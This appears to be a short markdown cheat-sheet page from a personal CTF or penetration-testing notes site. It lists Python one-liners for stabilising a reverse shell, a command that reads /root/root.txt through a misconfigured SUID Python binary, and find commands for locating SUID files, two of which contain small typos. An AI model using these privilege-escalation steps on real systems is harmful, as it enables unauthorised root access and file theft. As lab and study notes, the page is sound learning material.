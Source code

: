 ```yaml
---
layout: default
title: "shells"
permalink: /shells/
---
```

# reverse shells

## stabilisation

>```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
followed by
```bash
python -c 'import os; os.system("/bin/bash")'
```
(shell still terminates with `Ctrl+C`)

```
The pty module defines operations for handling the pseudo-terminal concept: starting another process
and being able to write to and read from its controlling terminal programmatically.
```

## suids
If suid of python is misconfigured:

>/usr/bin/python : -rwsr-sr-x

can use
>```bash
$ python -c 'print(1+1)'
2
```
```bash
$ python -c 'print(open("/root/root.txt").read())'
```


finding such SUIDs

>```bash
find / -perm -u=s -typef 2>dev/null
```
_or_
```bash
find / -perm /4000 2>dev/null
```


